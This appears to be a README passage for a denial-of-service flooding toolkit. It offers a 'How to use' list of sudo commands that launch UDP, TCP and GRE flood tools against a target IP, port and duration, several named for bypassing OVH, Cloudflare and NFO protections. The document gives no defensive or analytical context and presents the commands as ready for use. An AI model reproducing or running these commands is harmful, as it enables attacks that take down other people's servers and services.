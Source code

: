 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip% %port% 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip% %port% %time udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 %time ack

HEX : sudo ./HEX OVH %ip% %port% 300

NUKE-BYPASS : sudo ./HiperOVH %ip% %port

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 300

ETHERA : sudo ./ETHERA %ip% %port

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 300

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 300

R4P3 : sudo ./gre %ip% 10 -1 300

NFO : sudo ./NFO %ip% %port% 10 -1 300

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 300

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 300

NULL : sudo perl UDP_NULL.pl %ip% 300

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 300
